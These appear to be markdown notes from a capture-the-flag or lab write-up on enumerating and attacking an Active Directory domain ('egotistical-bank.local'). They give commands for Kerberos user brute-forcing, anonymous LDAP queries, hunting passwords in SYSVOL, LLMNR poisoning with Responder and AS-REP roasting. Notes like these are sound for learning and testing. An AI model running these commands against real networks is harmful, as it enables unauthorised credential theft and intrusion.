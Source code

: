 ### Port 80 (HTTP)

## AD Initial Enumeration

### User Enumeration

```bash
./kerbrute_linux_amd64 userenum -d <domain> --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

**Noting interesting.**

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=egotistical-bank,DC=local" 
```

![image.png](image%206.png)

### Passwords in Group Policy SYSVOL share

```bash
sudo crackmapexec smb $IP -u <domain-user> -p <domain-password> -M gpp_autologin
sudo crackmapexec smb $IP -u '' -p '' -M gpp_autologin
```

**No result**

### Digging to SYSVOL Share

```bash
crackmapexec smb $IP -u <domain-user> -p <password> -M spider_plus --share 'SYSVOL'
crackmapexec smb $IP -u '' -p '' -M spider_plus --share 'SYSVOL'
```

## Initial Attack Vectors

### LLMNR Poisoning

```bash
sudo responder -I tun0 -dwv 
```

**No result**

### AS-REP Roasting

```bash
GetNPUsers.py <FQDN>/ -dc-ip <dc-ip> -no-pass -usersfile valid_ad_users 
```
